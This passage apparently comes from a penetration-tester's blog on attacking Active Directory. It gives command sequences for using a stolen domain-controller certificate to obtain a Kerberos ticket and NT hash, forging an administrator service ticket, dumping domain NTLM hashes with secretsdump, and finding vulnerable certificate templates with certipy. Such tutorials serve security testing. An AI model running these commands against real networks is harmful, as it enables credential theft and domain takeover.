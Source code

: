 `gettgtpkinit.py 'acme.com/dc1$' -cert-pfx dc1.pfx dc1.ccache`

`KRB5CCNAME=dc1.ccache`
 
`getnthash.py 'acme.com/dc1$' -key <AS-REP enc key retrieved above>`

Then generate a silver ticket for an admin and CIFS:

`gets4uticket.py kerberos+ccache://acme.com\\dc1\$:dc1.ccache@dc1.acme.come cifs/dc1.acme.com@acme.com administrator@acme.com administrator.ccache -v`

`KRB5CCNAME=administrator.ccache`

`secretsdump.py -k 'acme.com/administrator@dc1 -no-pass -just-dc-ntlm -outputfile acme-ntds.txt'`

If the Domain Controllers don't support PKINIT you can try through Schannel. `certipy` has a `ldap-shell` option. Alternatively, [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/tree/main) is great.

`certipy cert -pfx dc1.pfx -nokey -out dc1.crt`
`certipy cert -pfx dc1.pfx -nocert -out dc1.key`

Then you can authenticate to different services over Schannel. `PassTheCert` has several different ways to escalate from there.

#### Certificate Misconfigurations <a name="3.5"></a>

This could be a post on its own. However, I'm just going to keep it really high-level, as this is something I always check.

If you're completely unfamiliar, give these a read:

- [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/)
- [https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/)

Finding vulnerable templates:

`certipy find -u 'joe@acme.com -p 'P@ssw0rd!' -enabled -vulnerable`

Certipy will tell you which templates are exploitable and to what technique (ESC1, ESC2, etc) which will inform you how to proceed. Typically it can all be done using just `certipy`.


To be continued
